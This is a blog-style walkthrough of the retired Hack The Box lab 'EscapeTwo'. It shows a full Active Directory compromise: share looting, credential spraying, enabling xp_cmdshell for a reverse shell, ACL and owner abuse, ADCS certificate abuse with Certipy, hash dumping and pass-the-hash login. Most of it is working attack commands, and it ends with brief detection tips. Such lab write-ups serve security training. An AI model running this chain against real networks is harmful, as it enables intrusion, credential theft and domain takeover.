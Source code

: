 ```yaml
---
title: "Assumed Breach to Domain Admin - HTB EscapeTwo Walkthrough"
date: 2025-06-15 10:10:00 +0700
categories: [Active-directory]
tags: [AD, Assumed Breach, HTB, MSSQL, SMB, Red Teaming, ADCS, ShadowCreds, BloodHound]
toc: true
pin: false
---
```


# Assumed Breach to Domain Admin – HTB EscapeTwo Walkthrough

This post demonstrates a full-path Active Directory compromise using initial credentials, misconfigured services, and post-exploitation techniques. Based on the retired <a href="https://app.hackthebox.com/machines/EscapeTwo" target="_blank">HTB EscapeTwo</a> machine.

---

## 🧠 Adversary Tradecraft Timeline

| Phase            | Tool/Action                    | Outcome                          |
| ---------------- | ------------------------------ | -------------------------------- |
| Initial Access   | Valid user credentials (rose)  | Confirmed domain access          |
| Recon            | MSSQL + SMB enumeration        | Found Excel creds via shares     |
| Credential Abuse | Used leaked `sa` password      | Gained privileged SQL shell      |
| Privesc          | Enabled `xp_cmdshell`          | `sql_svc` user shell             |
| Internal Recon   | BloodHound + ldapdomaindump    | Identified ADCS misconfig (ESC4) |
| Lateral Movement | OwnerEdit + DACL + ShadowCreds | Took over `ca_svc`               |
| Full Compromise  | ADCS abuse → cert + PFX login  | WinRM as Administrator           |

---

## 🔐 Initial Credentials

```bash
Username: rose
Password: KxEPkKe6R8su
```

Save to file:

```bash
echo -e "rose\nKxEPkKe6R8su" > creds.txt
```

---

## 🔍 Network Scanning

```bash
sudo nmap -p- --min-rate 10000 -sCV -Pn -oN enum.nmap 10.10.11.51
```

---

## 🧪 Protocol Enumeration (NetExec)

```bash
for p in smb vnc rdp ssh ftp nfs wmi winrm mssql ldap; do netexec $p 10.10.11.51 -u rose -p 'KxEPkKe6R8su'; done
```

Sample output:

```text
SMB 10.10.11.51 445 DC01 [+] sequel.htb\rose:KxEPkKe6R8su
```

---

## 📁 SMB Share Access

```bash
netexec smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares
smbclient '//dc01.sequel.htb/Accounting Department' -U rose%KxEPkKe6R8su
prompt off
mget *
```

Found: `accounts.xlsx`

---

## 📊 Parse Excel File

```bash
unzip accounts.xlsx -d accounts
cat accounts/xl/sharedStrings.xml | xmllint --xpath '//*[local-name()="t"]/text()' - | awk 'ORS=NR%5?",":"\n"' > userpass.txt
cut -d',' -f4 userpass.txt > users
cut -d',' -f5 userpass.txt > passwords
```

Sample:

```
Angela,Martin,angela@sequel.htb,angela,0fwz7Q4mSpurIt99
Oscar,Martinez,oscar@sequel.htb,oscar,86LxLBMgEWaKUnBG
Kevin,Malone,kevin@sequel.htb,kevin,Md9Wlq1E5bZnVDVo
NULL,sa@sequel.htb,sa,MSSQLP@ssw0rd!,
```

---

## 🧪 Credential Spraying

```bash
netexec smb sequel.htb -u users -p passwords --continue-on-success
netexec mssql sequel.htb -u users -p passwords --continue-on-success --local-auth
```

Found:

```text
DC01\sa : MSSQLP@ssw0rd!
```

---

## 🛠️ Privileged MSSQL Shell

```bash
impacket-mssqlclient 'sa':'MSSQLP@ssw0rd!'@sequel.htb
```

Enable command exec:

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

---

## 👚 Reverse Shell

Use revshells.com to generate payload and run:

```sql
EXEC xp_cmdshell "powershell -enc <base64>"
```

---

## 🧠 AD Recon (BloodHound)

```bash
ldapdomaindump ldap://dc01.sequel.htb -u sequel.htb\\rose -p 'KxEPkKe6R8su'
bloodhound-python -u rose -p 'KxEPkKe6R8su' -d sequel.htb -c all
```

Check ACL rights via PowerShell:

```powershell
$u="SEQUEL\ryan";Get-ADUser -Filter *|%{$dn="AD:$($_.DistinguishedName)";$a=Get-Acl $dn;$h=$a.Access|?{$_.IdentityReference -eq $u -and $_.ActiveDirectoryRights -match 'WriteOwner|GenericAll|GenericWrite|All'};if($h){Write-Host "User: $($_.Name)" -ForegroundColor Cyan;$h|fl;Write-Host "-----" -ForegroundColor DarkGray}}
```

---

## 🏗️ Takeover ca_svc via ACL + Owner Abuse

```bash
impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
impacket-dacledit -action write -rights FullControl -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
net rpc password "ca_svc" "w1ldP@ssword2022" -U "sequel.htb"/"ryan"%"WqSZAF6CysDQbGb3" -S "sequel.htb"
```

---

## ⚙️ ADCS Abuse (ESC1 / ESC4)

```bash
certipy-ad find -u ca_svc -p w1ldP@ssword2022 -dc-ip 10.10.11.51 -vulnerable
certipy-ad template -u ca_svc -p w1ldP@ssword2022 -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51
certipy-ad req -u ca_svc -p w1ldP@ssword2022 -target sequel.htb -dns sequel.htb -ca sequel-dc01-ca -upn Administrator -template DunderMifflinAuthentication
```

---

## 🔐 Use PFX to Authenticate & Dump Hashes

```bash
certipy-ad auth -pfx administrator_sequel.pfx -username Administrator -domain sequel.htb
secretsdump.py -k -no-pass -just-dc sequel.htb/Administrator@sequel.htb
```

---

## 🪟 Admin Shell (WinRM)

```bash
netexec winrm sequel.htb -u Administrator -H <NTLM_HASH>
```

---

## 🔍 Blue Team Detection Tips

- Alert on `xp_cmdshell` enable/config changes
- Monitor certificate enrollments (esp. non-users)
- Audit owner/DACL changes to sensitive accounts
- Disable vulnerable ADCS templates (ESC1–ESC8)

---

## ✅ Summary

| Phase             | Tactic                                 |
| ----------------- | --------------------------------------- |
| Initial Access    | SMB login with `rose`                  |
| Recon             | Excel creds + BloodHound               |
| Privilege Esc     | `sa` → `xp_cmdshell`                   |
| ACL Abuse         | `ryan` takeover of `ca_svc`            |
| ADCS Exploit      | ESC1 / ESC4 → cert for Administrator   |
| Domain Takeover   | WinRM + `netexec` as Domain Admin      |

---

This walkthrough showcases a realistic assumed breach scenario using tools like BloodHound, Certipy, and Impacket to compromise a full AD forest. Ideal for red teamers testing post-exploitation, and blue teamers hunting TTPs.
